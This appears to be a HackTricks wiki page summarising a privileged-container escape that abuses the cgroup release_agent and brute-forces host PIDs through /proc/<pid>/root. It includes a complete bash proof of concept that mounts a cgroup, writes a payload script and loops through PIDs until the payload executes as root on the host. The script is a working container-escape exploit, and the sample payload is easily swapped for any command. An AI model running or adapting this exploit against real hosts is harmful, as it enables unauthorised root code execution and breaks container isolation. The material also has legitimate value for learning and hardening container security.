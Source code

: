 # Release Agent Exploit: Relative Paths to PIDs

{{#include ../../../../banners/hacktricks-training.md}}

For further details **check the blog post from [https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html)**. This is just a summary:

The technique outlines a method for **executing host code from within a container**, overcoming challenges posed by storage-driver configurations that obscure the container's filesystem path on the host, like Kata Containers or specific `devicemapper` settings.

Key steps:

1. **Locating Process IDs (PIDs):** Using the `/proc/<pid>/root` symbolic link in the Linux pseudo-filesystem, any file within the container can be accessed relative to the host's filesystem. This bypasses the need to know the container's filesystem path on the host.
2. **PID Bashing:** A brute force approach is employed to search through PIDs on the host. This is done by sequentially checking for the presence of a specific file at `/proc/<pid>/root/<file>`. When the file is found, it indicates that the corresponding PID belongs to a process running inside the target container.
3. **Triggering Execution:** The guessed PID path is written to the `cgroups release_agent` file. This action triggers the execution of the `release_agent`. The success of this step is confirmed by checking for the creation of an output file.

### Exploitation Process

The exploitation process involves a more detailed set of actions, aiming to execute a payload on the host by guessing the correct PID of a process running inside the container. Here's how it unfolds:

1. **Initialize Environment:** A payload script (`payload.sh`) is prepared on the host, and a unique directory is created for cgroup manipulation.
2. **Prepare Payload:** The payload script, which contains the commands to be executed on the host, is written and made executable.
3. **Set Up Cgroup:** The cgroup is mounted and configured. The `notify_on_release` flag is set to ensure that the payload executes when the cgroup is released.
4. **Brute Force PID:** A loop iterates through potential PIDs, writing each guessed PID to the `release_agent` file. This effectively sets the payload script as the `release_agent`.
5. **Trigger and Check Execution:** For each PID, the cgroup's `cgroup.procs` is written to, triggering the execution of the `release_agent` if the PID is correct. The loop continues until the output of the payload script is found, indicating successful execution.

PoC from the blog post:

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

{{#include ../../../../banners/hacktricks-training.md}}



